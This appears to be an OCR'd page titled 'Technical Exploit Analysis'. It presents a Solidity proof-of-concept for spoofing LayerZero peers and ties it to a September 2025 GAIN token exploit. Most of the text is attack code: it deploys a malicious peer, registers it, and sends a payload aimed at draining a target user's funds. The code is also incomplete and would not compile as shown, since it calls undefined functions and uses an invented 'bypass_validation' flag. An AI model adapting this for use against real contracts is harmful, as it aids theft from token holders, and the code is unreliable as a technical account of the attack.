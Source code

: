 
## **Technical Exploit Analysis**

### **Attack Vector 1: LayerZero Peer Spoofing**
Based on **September 2025 GAIN token exploit** ($40M+ loss):

```solidity
// Proof-of-Concept: LayerZero Peer Manipulation
contract LayerZeroExploit {

    function exploitPeerSpoofing() external {
        // Step 1: Deploy malicious peer on source chain
        address maliciousPeer = deployMaliciousPeer();

        // Step 2: Register fake peer with LayerZero
        registerFakePeer(SOURCE_CHAIN_ID, maliciousPeer);

        // Step 3: Send cross-chain message with manipulated payload
        bytes memory maliciousPayload = abi.encode(
            TARGET_USER,
            DRAIN_AMOUNT,
            false // bypass_validation flag
        );

        // Step 4: Trigger cross-chain execution
        ILayerZeroEndpoint(lzEndpoint).send(
            BSC_CHAIN_ID,
            maliciousPeer,
            maliciousPayload,
            payable(msg.sender),
            address(0),
            bytes("")
        );
    }

    function deployMaliciousPeer() internal returns (address) {
        // Deploy contract that mimics legitimate peer
        return address(new MaliciousPeer());
    }
}

contract MaliciousPeer {
    function lzReceive(
        uint16 _srcChainId,
        bytes memory _srcAddress,
        uint64 _nonce,
        bytes memory _payload
    ) external {
        // Malicious peer that always validates
        // Bypasses legitimate validation logic
        emit MessageReceived(_payload);
    }
}
```
